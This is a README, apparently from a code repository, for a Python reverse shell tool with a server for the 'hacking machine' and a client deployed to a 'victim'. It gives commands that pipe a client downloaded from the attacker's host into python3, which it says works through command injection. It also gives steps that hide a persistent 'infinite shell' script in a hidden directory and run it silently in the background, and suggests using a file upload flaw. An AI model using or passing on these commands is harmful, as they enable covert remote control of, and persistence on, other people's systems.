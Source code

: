 # Usage

## On Hacking machine
`python3 rs_server.py`
<- edit the file to use the port you want or pass it in as an argument (default 8000). 

## Direct Client Deployment
`python3 rs_client.py`
^ edit the file to use the rs_server IP and port you want. 

Or pass them in as an argumenta (default port 8000)
`python3 rs_client.py <rs_server_ip> <rs_server_port>`

Or run as a backgroud job
`nohup python3 rs_client.py <hacker_ip> &> /dev/null &`

## Indirect Client Deployment [PREFERRED]
(works with cmd line injection)

- [SERVER] Host rs_client.py somehere
- - One option is to start a python web server on the rs_server
- - `python3 -m http.server 8080`   
- [CLIENT] Download + Execute from client machine
- - `wget -O - rs_server:8080/rs_client.py | python3`
- [SERVER] Download + Execute the Infinite shell (keeps rs_client active if it disconnects)
- - Follow these steps once server is connected to client.
- - Navigate to specific dir or Make a hidden dir
- - - `cd /usr/bin/local`  
- - Download from your rs_server
- - - `wget -q rs_server:8080/infiniteShell.sh &> /dev/null &`
- - Run in background witn nohup  
- - - `nohup bash infiniteShell.sh &> /dev/null &`


## Indirect Client Deployment [ALT]
- Could also exploit a file upload vulnerability and upload the file onto the victim's machine


### Port as an optional argument
Both scripts communicate on port 8000 by default.
This can be changed to another port - but you would need to make sure both scripts have the same port..

